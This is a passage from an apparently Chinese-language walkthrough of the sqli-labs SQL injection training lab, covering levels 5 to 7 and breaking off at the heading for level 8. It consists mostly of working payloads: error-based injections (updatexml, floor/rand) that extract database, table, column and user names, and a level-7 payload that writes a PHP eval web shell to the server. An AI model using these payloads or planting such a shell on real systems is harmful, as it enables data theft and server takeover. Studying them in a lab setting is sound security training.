 **payload**

```
?id=0' or updatexml(1, concat('~',database()), 1)--+	//爆库名
?id=0' or updatexml(1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'), 1) --+	//爆表名，updatexml方法

?id=-1'union select count(*),1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~',floor(rand(0)*2)) as a from information_schema.tables group by a--+	//爆表名，floor报错方法，输出更多

?id=-1'union select count(*),1, concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users'),'~',floor(rand(0)*2)) as a from information_schema.tables group by a--+	//爆列名，使用floor报错

?id=-1'union select count(*),1, concat('~',(select username from users limit 1,1),'~',floor(rand(0)*2)) as a from information_schema.tables group by a--+
//这里要一个一个输出 “limit 1,1”，只需改变第一个值
```



### less-6

#### 考点：报错注入

#### 思路：and

与5题一样，改成双引号就好了

**payload**

```
?id=1" and 1=1--+
```



### less-7

#### 考点：

#### 思路：

写入一句话木马

**payload**

```
?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "路径\\间隔"--+
```



### less-8

#### 考点：基于布尔的盲注
